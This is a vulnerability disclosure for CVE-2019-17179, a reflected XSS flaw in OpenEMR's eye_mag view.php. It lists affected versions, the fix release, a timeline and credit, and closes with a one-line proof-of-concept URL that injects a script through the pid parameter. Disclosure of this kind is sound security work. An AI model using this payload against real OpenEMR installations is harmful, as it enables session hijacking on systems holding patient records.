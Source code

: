 # CVE-2019-17179
Reflected XSS in `interface/forms/eye_mag/view.php` in OpenEMR 5.x before 5.0.2.1 allows a remote attacker to execute arbitrary code in the context of a user's session via the `pid` parameter.

## Timeline
* **Discovered:** September 24, 2019
* **Pull Request Issued:** September 24, 2019
* **Reported:** September 24, 2019
* **OpenEMR merged pull Request:** September 24, 2019
* **CVE ID issued:** October 24,  2019
* **OpenEMR Release:** October 10, 2019 (5.0.2.1)

## Version Details
**Fixed-In Version:** 5.0.2.1

**Affected Versions:**
* 5.0.1
* 5.0.1.1
* 5.0.1.2
* 5.0.1.3
* 5.0.1.4
* 5.0.1.5
* 5.0.1.6
* 5.0.1.7
* 5.0.2

## Credit
Will Porter, Lodestone Security (https://www.lodestonesecurity.com/)

## References
[Pull Request](https://github.com/openemr/openemr/pull/2685)

## POC Exploit
Assuming OpenEMR is running on `localhost`
```
http://localhost/openemr/interface/forms/eye_mag/view.php?pid="><script>alert(%27pid%20xss%27);</script><"&id=1
```
